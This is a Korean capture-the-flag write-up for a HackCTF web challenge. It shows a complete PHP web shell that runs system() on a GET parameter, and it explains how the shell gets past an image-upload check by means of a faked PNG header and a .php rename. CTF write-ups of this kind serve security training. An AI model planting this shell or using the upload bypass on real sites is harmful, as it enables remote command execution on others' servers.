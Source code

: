 ```yaml
---
title: 'HackCTF - WEB - 가위바위보'
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: false
---
```

# HackCTF - WEB - 가위바위보

일단 문제 사이트에 접속을 합니다.

![image-20191210202755946](image/HackCTF - WEB - 가위바위보/image-20191210202755946.png)

접속을 하면 간단한 가위바위보 게임을 즐길 수 있는 사이트가 하나 나오는데 여기서 오른쪽 위의 계정 설정으로 들어갑니다.!

![image-20191210202853478](image/HackCTF - WEB - 가위바위보/image-20191210202853478.png)

그러면 계정에 대해 프로필 이미지와 이름을 변경할 수 있는 것을 보이는데 파일 업로드가 가능 하다는 점에서 파일 업로드 취약점을 이용 해야 한다는 것을 알 수 있습니다. 일단 한번 간단한 웹쉘 코드를 짜고 업로드를 해봅니다.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

위와 같이 웹쉘을 제작 해서 파일을 업로드 해봅니다.!

webshell.php , webshell.png.php, webshell.php%00.png 등등 확장자를 변경하여 시도를 하였는데 아래와 같이 이미지 파일이 아니라는 경고를 내보내는 모습을 볼 수 있습니다.

![image-20191210203401282](image/HackCTF - WEB - 가위바위보/image-20191210203401282.png)

이번에는 파일 헤더에 PNG을 의미하는 헤더를 집어 넣음으로 한번 우회를 해봅니다.

![image-20191210203617292](image/HackCTF - WEB - 가위바위보/image-20191210203617292.png)

이제 수정한 파일을 업로드 해보면 정상적으로 업로드가 되는 모습을 알 수 있습니다.

![image-20191210203716410](image/HackCTF - WEB - 가위바위보/image-20191210203716410.png)

이때 파일을 열어보면 아래와 같이 이름으로 열리는 모습을 볼 수 있는데 이름을 .php의 확장자 이름으로 변경하여 다시 업로드 해봅니다.

![image-20191210203730274](image/HackCTF - WEB - 가위바위보/image-20191210203730274.png)

![image-20191210203840049](image/HackCTF - WEB - 가위바위보/image-20191210203840049.png)

이제 여기서 이미지의 주소를 새 창으로 띄어 보면 정상적으로 웹쉘이 실행된 모습을 볼 수 있는데 flag 파일을 찾아 출력 합니다.

![image-20191210204043068](image/HackCTF - WEB - 가위바위보/image-20191210204043068.png)
